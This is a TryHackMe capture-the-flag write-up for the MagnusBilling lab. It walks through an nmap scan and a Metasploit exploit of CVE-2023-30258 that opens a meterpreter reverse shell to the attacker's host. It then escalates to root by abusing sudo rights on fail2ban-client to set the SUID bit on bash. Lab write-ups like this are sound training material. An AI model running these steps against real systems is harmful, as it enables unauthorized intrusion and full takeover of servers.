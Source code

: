 **TryHackMe MagnusBilling Write-Up**

---

## 🚀 Initial Enumeration

**Target IP**: `10.10.139.180`

Nmap scan:

```bash
nmap 10.10.139.180 -sV
```

Result:

```
22/tcp   open  ssh     OpenSSH 9.2p1 Debian
80/tcp   open  http    Apache 2.4.62 (Debian)
3306/tcp open  mysql   MariaDB 10.3.23 or earlier (unauthorized)
```

Visiting `http://10.10.139.180/` redirects to `/mbilling`.

---

## 🤖 Web App Enumeration

* App identified: **MagnusBilling** (VoIP Billing Software)
* Known vulnerable version range: v6.x and early v7.x

Discovered that the server is vulnerable to:
**CVE-2023-30258** — *Unauthenticated RCE via `icepay.php`*

---

## 🛡️ Exploitation with Metasploit

Using Metasploit module:

```bash
use exploit/linux/http/magnusbilling_unauth_rce_cve_2023_30258
set RHOSTS 10.10.139.180
set TARGETURI /mbilling/lib/icepay/icepay.php
set PAYLOAD php/meterpreter/reverse_tcp
set LHOST <your_ip>
run
```

Successful shell:

```
Meterpreter session opened as user: asterisk
```

---

## 🔧 Privilege Escalation

Check `sudo` rights:

```bash
sudo -l
```

Output:

```
(ALL) NOPASSWD: /usr/bin/fail2ban-client
```

Exploit path:

```bash
sudo /usr/bin/fail2ban-client set sshd action iptables-multiport actionban "chmod +s /bin/bash"
sudo /usr/bin/fail2ban-client set sshd banip 127.0.0.1
/bin/bash -p
```

Check:

```bash
whoami  # root
```

---

## 🏆 Root Flag

```bash
cat /root/root.txt
THM{REDACTED}
```


